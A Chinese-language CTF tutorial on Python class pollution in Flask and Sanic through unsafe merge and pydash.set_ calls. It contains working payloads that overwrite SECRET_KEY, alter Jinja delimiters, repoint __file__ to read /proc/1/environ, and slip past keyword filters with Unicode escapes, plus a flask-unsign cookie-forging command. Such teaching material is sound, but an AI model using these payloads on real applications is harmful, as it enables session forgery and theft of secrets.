 原型链
在Pyton中每个对象都有一个原型，原型上定义了对象可以访问的属性和方法。当对象访问属性或方法时，会先在自身查找，如果找不到就会去原型链上的上级对象中查找，原型链污染攻击的思路是通过修改对象原型链中的属性，使得程序在访问属性或方法时得到不符合预期的结果。
原型链污染和JavaScript的原型链污染差不多，都是需要merge 函数来修改父类的属性。
python中pydash也可以打原型链。

## **flask的原型链污染**
一个注册接口，默认传递参数是form
```
 "username": "test"&"password": "test",
```
已知登录后默认的jwt中is_admin:0

我们可以传递一个json:
```
{
  "username":"test",
  "password":"test",
  "is_admin":1
}
```
直接变成管理员。


^
还可以利用原型连污染，覆盖掉全局变量中的jwt的SECRET_KEY的值
```
{
    "username": "test",
    "password": "test",
    "__init__": {"__globals__": {"app": {"config": {"SECRET_KEY": "123456"}}}}
}
```
这样就可以伪造flask的jwt。
```
flask-unsign --sign --cookie "{'is_admin': 1, 'username': 'test1'}" --secret  '123456'
 
eyJpc19hZG1pbiI6MSwidXNlcm5hbWUiOiJ0ZXN0MSJ9.ZzYYAg.hqQmeTq4GCo4yfAofb0pngi0tpA
```


^
## **对jinja模板用的[# flag #]进行原型链污染**
污染 flask key 和 模板字符串的闭合规则。

因为是JSON，遇到waf还可以利用 JSON 解析 Unicode 来绕过 waf
```
app = Flask(__name__)
app.secret_key = generate_random_md5()

def merge(src, dst):
    # 可能造成原型链污染的函数
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

@app.route('/',methods=['POST'])
def index():
    username = request.form.get('username')
    password = request.form.get('password')
    session["username"] = username
    session["password"] = password
    if request.data:
        if filter(str(request.data)):
            return "NO POLLUTED!!!YOU NEED TO GO HOME TO SLEEP~"
        else:
            merge(json.loads(request.data), Evil)  #这里直接json.load可能造成原型链污染

@app.route('/admin',methods=['POST', 'GET'])
def templates():
    username = session.get("username", None)
    password = session.get("password", None)
    if username and password:
        if username == "adminer" and password == app.secret_key:
            return render_template("flag.html", flag=open("/flag", "rt").read())
        else:
            return "Unauthorized"
    else:
        return f'Hello,  This is the POLLUTED page.'

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)


flag.html内容：
<body>
    这又是什么jinja语法啊！
    [#flag#]
</body>
```

这里要求password 等于全局变量app.secret_key后，可以通过flag.html带出flag。
flag.html里jinja模板用的[# flag #]，不是默认的{{ ... }}，不会渲染变量，这里需要加个jinja_env指定模板的闭合符号为[# #]让其可以像{{}}一样可以渲染。
```
{"__init__":
	{"__globals__":
		{"app":
			{
				"secret_key":"123456",
				"jinja_env":{
					"variable_start_string":"[#",
					"variable_end_string":"#]"
				}
			}
		}
	}
}
```
这里直接根目录json请求，遇到waf，是json，直接unicode编码绕过
```
{"\u005f\u005f\u0069\u006e\u0069\u0074\u005f\u005f":
	{"\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f":
		{"\u0061\u0070\u0070":
			{
				"secret\u005fkey":"123456",
				"jinja\u005f\u0065\u006e\u0076":{
					"variable\u005fstart\u005f\u0073\u0074\u0072\u0069\u006e\u0067":"[#",
					"variable\u005fend\u005f\u0073\u0074\u0072\u0069\u006e\u0067":"#]"
				}
			}
		}
	}
}
```
此时继续根目录POST传递获取jwt
```
username=adminer&password=123456
```
获取jwt再访问/admin就有正确的session了



^
## **其他题__file__**
```
data = {
	"username" : "admin", 
	"password" : "123456", # 在data中定义username和password保证data可以进入merge函数中
	"\u005F\u005F\u0069\u006E\u0069\u0074\u005F\u005F": { # 在check中可以看到有black_list,__init__被过滤了，使用unioncode进行绕过
		"__globals__" : {
			"__file__": "../../../proc/1/environ" # 大部分的flag都隐藏在环境变量中
		}
	}
}
```


^
## **污染__file__**
```
@app.route("/src")
async def src(request):
    return text(open(__file__).read())


@app.route("/admin", methods=['GET', 'POST'])
async def admin(request):
    if request.ctx.session.get('admin') == True:
        key = request.json['key']
        value = request.json['value']
        if key and value and type(key) is str and '_.' not in key:
            pollute = Pollute()
            pydash.set_(pollute, key, value)
            return text("success")
        else:
            return text("forbidden")

    return text("forbidden")
```
POST请求体传递，
```
这里不让传递__. 但是pydash里会将\\变成\ 和\.变成. 所以直接传递\\\\.

{"key": "__class__\\\\.__init__\\\\.__globals__\\\\.__file__", "value": "/24bcbd0192e591d6ded1_flag"}


{
  "key": ".__init__\\\\.__globals__\\\\.__file__",
  "value": "/proc/1/environ"
}
```